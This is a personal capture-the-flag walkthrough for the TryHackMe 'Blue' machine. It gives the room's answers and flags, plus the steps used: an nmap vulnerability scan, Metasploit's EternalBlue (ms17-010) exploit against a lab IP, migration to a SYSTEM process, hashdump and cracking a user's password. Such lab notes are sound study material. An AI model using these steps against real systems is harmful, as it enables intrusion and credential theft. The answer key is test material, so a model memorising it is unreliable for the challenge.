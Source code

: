 Blue machine on thm
This is my first thm repository.
This repository is made with the purpose of taking notes about the machine, therefore possible future study material.

THM tasks
How many ports are open with a port number under 1000?
3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
ms17-010

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)
rhosts

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
post/multi/manage/shell_to_meterpreter

Select this (use MODULE_PATH). Show options, what option are we required to change?
sessions

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
jon

Copy this password hash to a file and research how to crack it. What is the cracked password?
alqfna22

Flag1? This flag can be found at the system root.
flag{access_the_machine}

Flag2? This flag can be found at the location where passwords are stored within Windows.
flag{sam_database_elevated_access}

Flag3?
flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.
Pocedure
Scanning

First of all, I'm making an nmap scan and saving it in the file initialNmap_scan:
sudo nmap -sV -vv -script vuln 10.10.92.38 -oN initialNmap_scan

The scans shows a remote code execution (RCE) vulnerability in Microsoft SMBv1 servers.
Exploit

This vulneravility should be exploitable with metasploit, so I'm starting it:
msfconsole

I look for the right module in metasploit:
search ms17-010

I find eternalblue and I select it:
use <number of module in the list>

After selecting it, I set the value rhosts with the IP of the target machine in THM
set rhosts 10.10.92.38

It's al set now, time to run the expoit
run

Escalate

At this point, I'm rebooting the machine so the IP is different (10.21.13.118)

I've realised that I didn't set the lhost to my openvpn IP, and that was causing the failure, now I set it up:
set lhost 10.21.13.118

The exploit should have set up a shell, and I was supposed to escalate it to meterpreter, but with the default payload it already escalated it, so there's no need to do it mannually. If i run 'shell' and 'whoami' I will get that we are system.
PID of the powershell.exe NT AUTHORITY\SYSTEM: 2900

Now we migrate to this process:
migrate PROCESS_ID

Now we are in the powershell. I now run 'hashdump' to get the hashes of the users: Jon, and check if I can crack the password in hashes.com
Flags
I've found the first flag running 'search flag*'

Now I just have to go to the directories and check them.
